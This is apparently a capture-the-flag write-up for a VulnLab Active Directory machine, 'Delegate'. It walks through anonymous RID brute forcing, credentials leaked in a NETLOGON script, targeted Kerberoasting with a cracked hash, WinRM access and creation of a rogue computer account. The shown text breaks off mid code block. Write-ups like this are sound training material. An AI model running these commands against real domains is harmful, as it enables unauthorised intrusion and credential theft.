









## Executive Summary

Delegate is a Windows Active Directory machine on VulnLab centered entirely around **misconfigured delegation and trust chains** rather than any memory-corruption bug. Every step abuses legitimate AD/Kerberos functionality that was left too permissive. The attack chain is as follows:

* **Guest/Null Session → RID Brute Force → Full User List** — Enumerate the domain's SID space anonymously via `netexec --rid-brute` to recover every account, including `A.Briggs`, without any credentials.
* **NETLOGON Script → Leaked Credential** — Pull a legacy logon script from the world-readable `NETLOGON` share and recover a hardcoded plaintext credential for `A.Briggs`.
* **LDAP + bloodyAD → WRITE on N.Thompson** — Authenticate to LDAP with the recovered credential and query writable objects directly with `bloodyAD get writable`, revealing `A.Briggs` holds write access over `N.Thompson`'s user object and over the domain's DNS zones.
* **Targeted Kerberoasting → N.Thompson** — Abuse the write access to add an SPN to `N.Thompson`, request a crackable TGS, and recover the account's password offline with hashcat in seconds.
* **Rogue Machine Account → Unconstrained Delegation → Coercion** — Create an attacker-controlled computer account (`evil$`), point a DNS record at the attacker's host, mark the computer as trusted for unconstrained delegation, and coerce the Domain Controller into authenticating to it.
* **TGT Capture → DCSync → Domain Administrator** — Capture the Domain Controller's own machine TGT, use it to perform a DCSync attack, and authenticate as Administrator to grab the root flag directly off the desktop.

**Machine Information**

| Detail | Value |
|:--|:--|
| **Machine Name** | Delegate |
| **OS** | Windows Server 2022, Build 20348 |
| **Difficulty** | Medium |
| **Domain** | `delegate.vl` |
| **Domain Controller** | `DC1.delegate.vl` (`DC1`) |
| **Target IP** | 10.129.234.69 |
| **Attacker IP** | 10.10.14.95 |

**Tools Used**

| Tool | Purpose |
|:--|:--|
| `nmap` | Port scanning & service fingerprinting |
| `netexec` (`nxc`) | Null-session RID brute forcing, SMB share enumeration, LDAP user/group enumeration |
| `bloodyAD` | Enumerating writable AD objects & flipping UAC/delegation flags |
| `smbclient` | Pulling the leaked logon script off `NETLOGON` |
| `targetedKerberoast.py` | Abusing write access to Kerberoast a non-SPN account |
| `hashcat` | Offline Kerberos ticket cracking |
| `evil-winrm` | Interactive remote PowerShell |
| `addcomputer.py` (Impacket) | Rogue machine account creation |
| `dnstool.py` | AD-integrated DNS record manipulation |
| `krbrelayx.py` | Kerberos relay listener & TGT capture |
| `PetitPotam.py` | MS-EFSRPC coercion |
| `impacket-secretsdump` | DCSync attack & NTDS hash extraction |

---

## Reconnaissance

I start with a fast SYN scan across all 65535 ports, since Active Directory boxes tend to expose a wide and distinctive range that a default top-1000 scan would miss entirely:

```shell
kali@kali$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.234.69

Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-13 10:33 +0000
Warning: 10.129.234.69 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.129.234.69
Host is up (0.36s latency).
Not shown: 65508 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49671/tcp open  unknown
52395/tcp open  unknown
52396/tcp open  unknown
52401/tcp open  unknown
52801/tcp open  unknown
53526/tcp open  unknown
60068/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 27.40 seconds
```

Seeing 53 (DNS), 88 (Kerberos), 389/636/3268/3269 (LDAP + Global Catalog), and 445 (SMB) together is the standard fingerprint of a Domain Controller. I follow up with version detection and default scripts against the ports that matter, plus 21/80 just in case a web app is hiding behind a filter:

```shell
kali@kali$ sudo nmap -Pn -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,21,80 10.129.234.69

PORT     STATE    SERVICE       VERSION
21/tcp   filtered ftp
53/tcp   open     domain        Simple DNS Plus
80/tcp   filtered http
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-13 10:43:42Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-07-13T10:44:48+00:00; +3m24s from scanner time.
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2026-07-12T10:29:16
|_Not valid after:  2027-01-11T10:29:16
| rdp-ntlm-info:
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   DNS_Tree_Name: delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-13T10:44:08+00:00
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open     mc-nmf        .NET Message Framing
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 3m23s, deviation: 0s, median: 3m23s
| smb2-time:
|   date: 2026-07-13T10:44:08
|_  start_date: N/A
```

Two details stand out immediately. First, the `rdp-ntlm-info` script leaks the DC's exact hostname (`DC1.delegate.vl`) and NetBIOS domain (`DELEGATE`) for free, before I've authenticated at all. Second, `clock-skew: mean: 3m23s` is a real problem for Kerberos later — Kerberos rejects tickets outside a ~5 minute skew window by default, so I make a mental note to sync time against the DC before any ticket-based operation. I add the domain to `/etc/hosts` so name resolution works cleanly for LDAP and Kerberos:

```shell
kali@kali$ sudo sh -c 'echo "10.129.234.69 DC1.delegate.vl delegate.vl" >> /etc/hosts'
```

---

## Anonymous Enumeration — RID Brute Force & NETLOGON

Before spending time guessing usernames, I check whether SMB accepts a guest/null session and, if so, whether RID brute forcing is possible. RID brute forcing works by walking the well-known SID structure (`domain-SID-RID`) and asking the DC to resolve each RID to a name — a technique that doesn't require a valid password, only that anonymous SID/name translation isn't locked down:

```shell
kali@kali$ netexec smb 10.129.234.69 -u "guest" -p "" --rid-brute

SMB   10.129.234.69   445   DC1   [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB   10.129.234.69   445   DC1   [+] delegate.vl\guest:
SMB   10.129.234.69   445   DC1   498: DELEGATE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB   10.129.234.69   445   DC1   500: DELEGATE\Administrator (SidTypeUser)
SMB   10.129.234.69   445   DC1   501: DELEGATE\Guest (SidTypeUser)
SMB   10.129.234.69   445   DC1   502: DELEGATE\krbtgt (SidTypeUser)
SMB   10.129.234.69   445   DC1   512: DELEGATE\Domain Admins (SidTypeGroup)
SMB   10.129.234.69   445   DC1   513: DELEGATE\Domain Users (SidTypeGroup)
SMB   10.129.234.69   445   DC1   514: DELEGATE\Domain Guests (SidTypeGroup)
SMB   10.129.234.69   445   DC1   515: DELEGATE\Domain Computers (SidTypeGroup)
SMB   10.129.234.69   445   DC1   516: DELEGATE\Domain Controllers (SidTypeGroup)
SMB   10.129.234.69   445   DC1   517: DELEGATE\Cert Publishers (SidTypeAlias)
SMB   10.129.234.69   445   DC1   518: DELEGATE\Schema Admins (SidTypeGroup)
SMB   10.129.234.69   445   DC1   519: DELEGATE\Enterprise Admins (SidTypeGroup)
SMB   10.129.234.69   445   DC1   520: DELEGATE\Group Policy Creator Owners (SidTypeGroup)
SMB   10.129.234.69   445   DC1   521: DELEGATE\Read-only Domain Controllers (SidTypeGroup)
SMB   10.129.234.69   445   DC1   522: DELEGATE\Cloneable Domain Controllers (SidTypeGroup)
SMB   10.129.234.69   445   DC1   525: DELEGATE\Protected Users (SidTypeGroup)
SMB   10.129.234.69   445   DC1   526: DELEGATE\Key Admins (SidTypeGroup)
SMB   10.129.234.69   445   DC1   527: DELEGATE\Enterprise Key Admins (SidTypeGroup)
SMB   10.129.234.69   445   DC1   553: DELEGATE\RAS and IAS Servers (SidTypeAlias)
SMB   10.129.234.69   445   DC1   571: DELEGATE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB   10.129.234.69   445   DC1   572: DELEGATE\Denied RODC Password Replication Group (SidTypeAlias)
SMB   10.129.234.69   445   DC1   1000: DELEGATE\DC1$ (SidTypeUser)
SMB   10.129.234.69   445   DC1   1101: DELEGATE\DnsAdmins (SidTypeAlias)
SMB   10.129.234.69   445   DC1   1102: DELEGATE\DnsUpdateProxy (SidTypeGroup)
SMB   10.129.234.69   445   DC1   1104: DELEGATE\A.Briggs (SidTypeUser)
SMB   10.129.234.69   445   DC1   1105: DELEGATE\b.Brown (SidTypeUser)
SMB   10.129.234.69   445   DC1   1106: DELEGATE\R.Cooper (SidTypeUser)
SMB   10.129.234.69   445   DC1   1107: DELEGATE\J.Roberts (SidTypeUser)
SMB   10.129.234.69   445   DC1   1108: DELEGATE\N.Thompson (SidTypeUser)
SMB   10.129.234.69   445   DC1   1121: DELEGATE\delegation admins (SidTypeGroup)
```



`(Null Auth:True)` in the banner confirms the anonymous session is accepted at all, which is what makes the RID brute force possible in the first place. Two entries are worth flagging immediately for later: `DC1$` (RID 1000, the Domain Controller's own machine account — always a high-value target for delegation abuse) and a custom, non-default group called **`delegation admins`** (RID 1121) — a strong hint, given the machine's name, of where the privilege-escalation path is heading. I save the recovered usernames locally for later brute-force/spray reference:

```shell
kali@kali$ cat > users_delegate.txt << 'EOF'
Administrator
Guest
krbtgt
DC1$
A.Briggs
b.Brown
R.Cooper
J.Roberts
N.Thompson
EOF
```

With usernames in hand but no passwords yet, I check `NETLOGON` — a share that's world-readable by design, since domain-joined machines need to pull logon scripts and Group Policy objects before authenticating as a user:

```shell
kali@kali$ smbclient //10.129.234.69/NETLOGON -N
smb: \> ls
  users.bat
smb: \> get users.bat
```

```shell
kali@kali$ strings users.bat
```

The script contains a hardcoded credential pair — a textbook case of credentials left behind in a legacy logon script, and a known, low-effort attack surface that requires no exploitation, just patience to read:

```
Username: A.Briggs
Password: P4ssw0rd1#123
```



---

## Authenticated SMB & LDAP Enumeration

With a real credential in hand, I re-run NetExec against SMB, this time authenticated, to confirm the login and pull the share listing properly:

```shell
kali@kali$ netexec smb 10.129.234.69 -u 'A.Briggs' -p 'P4ssw0rd1#123' --shares

SMB   10.129.234.69   445   DC1   [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB   10.129.234.69   445   DC1   [+] delegate.vl\A.Briggs:P4ssw0rd1#123
SMB   10.129.234.69   445   DC1   [*] Enumerated shares
SMB   10.129.234.69   445   DC1   Share           Permissions            Remark
SMB   10.129.234.69   445   DC1   -----           -----------            ------
SMB   10.129.234.69   445   DC1   ADMIN$                                 Remote Admin
SMB   10.129.234.69   445   DC1   C$                                     Default share
SMB   10.129.234.69   445   DC1   IPC$            READ                   Remote IPC
SMB   10.129.234.69   445   DC1   NETLOGON        READ                   Logon server share
SMB   10.129.234.69   445   DC1   SYSVOL          READ                   Logon server share
```

With one valid domain credential, LDAP now becomes queryable as an authenticated user (LDAP simple bind requires a valid account, not necessarily a privileged one). This immediately expands visibility into the whole directory: user objects, group memberships, and — critically — ACL/ACE data if you follow up with the right tooling.

```shell
kali@kali$ netexec ldap 10.129.234.69 -u 'A.Briggs' -p 'P4ssw0rd1#123' --users

LDAP  10.129.234.69   389   DC1   [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl) (signing:None) (channel binding:No TLS cert)
LDAP  10.129.234.69   389   DC1   [+] delegate.vl\A.Briggs:P4ssw0rd1#123
LDAP  10.129.234.69   389   DC1   [*] Enumerated 8 domain users: delegate.vl
LDAP  10.129.234.69   389   DC1   -Username-        -Last PW Set-        -BadPW-  -Description-
LDAP  10.129.234.69   389   DC1   Administrator     2023-08-26 15:46:29  1        Built-in account for administering the computer/domain
LDAP  10.129.234.69   389   DC1   Guest             <never>              9        Built-in account for guest access to the computer/domain
LDAP  10.129.234.69   389   DC1   krbtgt            2023-08-26 09:40:08  0        Key Distribution Center Service Account
LDAP  10.129.234.69   389   DC1   A.Briggs          2023-08-26 12:55:15  0
LDAP  10.129.234.69   389   DC1   b.Brown           2023-08-26 12:55:15  0
LDAP  10.129.234.69   389   DC1   R.Cooper          2023-08-26 12:55:15  0
LDAP  10.129.234.69   389   DC1   J.Roberts         2023-08-26 12:55:15  0
LDAP  10.129.234.69   389   DC1   N.Thompson        2023-09-09 15:17:16  0
```



`N.Thompson`'s "Last PW Set" date (2023-09-09) stands out as noticeably later than every other standard user (all 2023-08-26), suggesting this account was created or modified separately from the rest — consistent with it being the intended pivot account. I also pull the full group listing, since `(signing:None)` on LDAP (as opposed to SMB's `signing:True`) is worth noting, though it isn't leveraged in this path:

```shell
kali@kali$ netexec ldap 10.129.234.69 -u 'A.Briggs' -p 'P4ssw0rd1#123' --groups

LDAP  10.129.234.69   389   DC1   -Group-                                   -Members- -Description-
LDAP  10.129.234.69   389   DC1   Administrators                            3         Administrators have complete and unrestricted access to the computer/domain
LDAP  10.129.234.69   389   DC1   Domain Admins                             1         Designated administrators of the domain
LDAP  10.129.234.69   389   DC1   Enterprise Admins                         1         Designated administrators of the enterprise
LDAP  10.129.234.69   389   DC1   Remote Management Users                   1         Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service).
LDAP  10.129.234.69   389   DC1   DnsAdmins                                 0         DNS Administrators Group
LDAP  10.129.234.69   389   DC1   delegation admins                         2         Group to allow delegation in the domain
```
*(trimmed to the groups relevant to this path — the full output also lists all standard built-in groups such as Backup Operators, Print Operators, Schema Admins, etc.)*

The **`delegation admins`** group description — *"Group to allow delegation in the domain"* — all but names the vulnerability outright, and `Remote Management Users` having exactly 1 member is the account worth identifying next.

---

## Finding the Write Path with bloodyAD

Rather than standing up a full BloodHound collection for a single permission check, I go straight at it with `bloodyAD get writable`, which queries the DC for every object the current principal (`A.Briggs`) holds write-type rights over:

```shell
kali@kali$ bloodyAD --host 10.129.234.69 -u A.Briggs -p 'P4ssw0rd1#123' -d delegate.vl get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=delegate,DC=vl
permission: WRITE

distinguishedName: CN=A.Briggs,CN=Users,DC=delegate,DC=vl
permission: WRITE

distinguishedName: CN=N.Thompson,CN=Users,DC=delegate,DC=vl
permission: WRITE

distinguishedName: DC=Delegate.vl,CN=MicrosoftDNS,DC=DomainDnsZones,DC=delegate,DC=vl
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.debugger.vl,CN=MicrosoftDNS,DC=ForestDnsZones,DC=delegate,DC=vl
permission: CREATE_CHILD
```

Two lines matter here. First, `A.Briggs` has **WRITE** over `N.Thompson`'s user object — full write access to non-protected attributes, including `servicePrincipalName`. Writing an SPN onto an account that wouldn't otherwise have one is the basis of a **targeted Kerberoasting** attack: it manufactures the exact condition (an SPN tied to the account) that normal Kerberoasting requires, on an account that was never meant to be kerberoastable. Second, `A.Briggs` holds `CREATE_CHILD` on the domain's DNS zone objects — meaning this account (or, as it turns out, `N.Thompson` once compromised) can create arbitrary DNS records directly against AD-integrated DNS, which becomes essential later for pointing a hostname at the attacker's box.

---

## Targeted Kerberoasting → N.Thompson

I use the write access to add a temporary SPN to `N.Thompson` and request a TGS for it:

```shell
kali@kali$ python3 targetedKerberoast.py -v -d delegate.vl -u A.Briggs -p 'P4ssw0rd1#123'
```



This yields a crackable TGS-REP hash, which I feed straight into hashcat:

```shell
kali@kali$ hashcat -m 13100 nthompson_hash.txt /usr/share/wordlists/rockyou.txt --force

hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) i7-10850H CPU @ 2.70GHz, 6859/13719 MB (2048 MB allocatable), 12MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385

$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$2759019f4abf1a75ca4868bc1a17e019$7ec7d2084ee02804f4818399ae88ac55eb032f34f083211055f1d592aae4c565f5f8a557f7114c2cf9f49f8eff29f2c8cf2bd1d15040640893264e2ebdd361548ee81f46e4961a95588e068a2c026f86b96e5af56d80d466cc6936a9a979966dca4d90d3846991f58c170e7b7a3fbe220be6767048271b9754289c2e7013b6ea00ae6ad3ad1075aad80031000971aab7e432b6280c663c8bd6f4a4afaadb464753147fa54aebcae2ee19d6e9b5fc9578caf133c7b4f9ac8e1fcabeb73fd38799ff0815b094acbd46c9d89dd391a625b005a748b881141db695b143c9bf0a55d43df772c0a6db923c8a46ebfc328b9417cf3d5a68368adee9292a2ce9d846dea1c15a39223748534f67c0932c52ff94737b0113d92efc36559694e117339bad9c646e069c9b3bbf18d45fa114d581da490ca7dfcabc49018fc19a78ea949920a33e8bb503657ef3ea2ec7f7931ccbedf28c36af73d6774f022bf3d7f153c518e609448ce3c10483c219c9aa7036c6b50d5b3adb0f24083c46ac64a5ebc236fd078ce1f538d5ced1c8614ad30a077427e1c0bf6d512dff7f56e1ed4d3254ad9f1fcb38b740555c66424f98704ed071a593d39b291fd161c98d9ad18200eb6e5ab4d9ddf46d56c575a98101ce9afd96003aa14880325e3376f9c882a7a8d5ed0353c1a28366f13aa6e5486fa970414c1da919dc75dc3a3b950f01610339c035a7acb38c402c16b0fba4c3ae9948d1826164c2d3ec266ea7549bd384b5bd164cc192e562363228a4ec5d86f4df7e9f244d8549d5d55286a73a39e7b0a205f84e5361756a9283e84db8c0d8398b4a79f43bbab518f697bf3a3d46c21c305666c1eae10c426d20001afd2ed4b3f427a838d2f7022832401f91d1db5f55c0065b94310daf8700a934234dedc94d25679dc05c79e4185d16de5ebb6816fd0a3eefb1eafa3fd478ac936dc1d15cb60dc17479f8b94df4a3cba7bfce692df68d325f91e34e8cc53994e265da0c16a0d9fd25c96806d67a1daf2116445d40a954f7a8b8dcf3b4a3b368dd2d4333268263067273d9868a6f76d5d8726bb7d01ad26cb7093d18d4917dc960dd0ae42553422241f9efa6ab50cfcc27c0ffd30ff0959394e8689ac182075f004b2b276720c89a2ebd7e611fec5dfee010ee1dc400a704fd022e98c6561314d8ef1180eacfdc300bf7fc978c2f01b791b19342393da0ff555ec9e6377dfc429455b3d15857de0463125ffc0b01423edcc4f4c0fddd7ae610498ba42832efe97b520488e72b325a1e8ab482aea3651e0df092b896573ad813501b412374f1d99f0b4d34ab3ec203fab218339ff08e6e15d81fe77ce6a80f2b82c9043e64767648aa421c8b25045c8ec168ae0e6f8b876f11bb2562bab7c4346a0ead84aa530dcfb2a430e4370cee5de15e1b15cae1a3fb6f8ea0f4d180d31715c7c367622787:KALEB_2341

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Time.Started.....: Mon Jul 13 18:05:49 2026, (4 secs)
Speed.#01........:  3124.3 kH/s (2.68ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 11010048/14344385 (76.76%)
```

`-m 13100` targets Kerberos 5 TGS-REP etype 23 (RC4-HMAC), which is why the crack completes in 4 seconds at ~3.1 MH/s on CPU alone — RC4-based Kerberoast hashes are dramatically weaker to brute force than their AES counterparts. The recovered credential:

```
N.Thompson:KALEB_2341
```

Since `N.Thompson` is the sole member of `Remote Management Users` identified earlier, I expect — and confirm — WinRM access:

```shell
kali@kali$ evil-winrm -i 10.129.234.69 -u N.Thompson -p 'KALEB_2341'
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami
delegate\n.thompson
```



This is a solid foothold on the DC itself, but `N.Thompson` is not a Domain Admin, so privilege escalation continues by chasing the delegation angle the box is named for.

---

## Rogue Machine Account & Unconstrained Delegation Setup

By default, AD's `ms-DS-MachineAccountQuota` attribute allows any authenticated user to join up to 10 machine accounts to the domain. I use this to mint a computer object with a password I control:

```shell
kali@kali$ python3 /home/kali/.local/bin/addcomputer.py -dc-ip 10.129.234.69 -computer-name evil$ -computer-pass 'P@$$word123!' delegate.vl/N.Thompson:KALEB_2341

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account evil$ with password P@$$word123!.
```

Unlike most user accounts, computer accounts can be configured for **delegation**, and delegation misconfiguration is exactly the theme this box is built around. I flip the `userAccountControl` bit that marks `evil$` as **trusted for unconstrained delegation**:

```shell
